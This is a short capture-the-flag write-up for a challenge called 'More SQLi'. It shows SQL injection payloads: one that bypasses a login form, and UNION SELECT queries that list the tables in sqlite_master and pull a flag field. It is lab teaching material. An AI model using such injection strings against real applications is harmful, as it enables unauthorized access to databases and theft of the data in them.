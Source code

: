 # More SQLi

## Description
This write up will show how to solve the CTF for "More SQLi"

## Solution
It shows a login page. Giving a random user and a random password, it looks like the password is evaluated first and then the username.</br>
Try in the password field `' OR = 1=1;--` and give a random user.</br>
Using in the search field `UNION SELECT name, sql, null from sqlite_master;--` to get more info about the database.</br>
It shows that the `more_table` has a flag field.</br>
Now we know what table to query:</br>
`' UNION SELECT flag, null, null from more_table;--` and this will show the flag.
